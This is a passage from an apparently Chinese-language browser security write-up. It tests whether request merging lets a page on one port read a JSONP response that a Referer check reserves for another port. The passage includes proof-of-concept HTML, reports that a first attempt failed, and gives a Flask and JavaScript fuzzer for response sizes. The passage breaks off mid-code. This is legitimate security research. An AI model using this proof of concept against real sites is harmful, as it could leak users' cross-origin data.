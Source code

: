 ```html
</html>
```

### poc
http://example.com:8081/poc.html
```
<iframe src="http://example.com:8082/"></iframe>
<script type="text/javascript" src="http://example.com:8082/jsonp.php"></script>
<script type="text/javascript">
    document.write(jquery());
</script>
```

正常情况这个poc是没有办法获得jsonp里面的信息的，因为不能bypass`startsWith($referrer, "http://example.com:8082")`的检测。
但是在request merging的情况下，浏览器因为script资源的url是相同的，所以它只会请求`http://example.com:8082/jsonp.php`一次，则我们可以在`example.com:8081`里拿到只有`example.com:8082`可以拿到的资源。

## 第一次实验

访问：http://example.com:8081/poc.html

![](http://ww1.sinaimg.cn/large/005y7Ba5gy1fj4612z2h6j310q0fc3zw.jpg)

失败了...
之后我开始不正经了...

## fuzz response size in script src

难不成是response请求包大小的问题？请求太小的情况下，没有必要合并请求，所以浏览器直接不合并了？fuzz一下看看多大的请求会被合并。

代码：
flask:
```python
from flask import Response, Flask, stream_with_context

app = Flask(__name__)

@app.route('/jsonp/<int:size>')
def jsonp(size):
    def _genrate_file(size):
        yield "1"
        yield "\0" * (size-1)
    return Response(stream_with_context(_genrate_file(size)))

if __name__ == "__main__":
    app.run(debug=True, threaded=True, port=8888, host="0.0.0.0")
```
html:
```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>fuzz size of response about request merging</title>
</head>
<body>
<script type="text/javascript">
(function(){
    for (var size = 3; size <= 100; size++) {
        var iframe = document.createElement('iframe');
        var html = '';
        for (var i = 3; i >= 0; i--) {
            html = html + 
            '<script src=http://0.0.0.0:8888/jsonp/'
```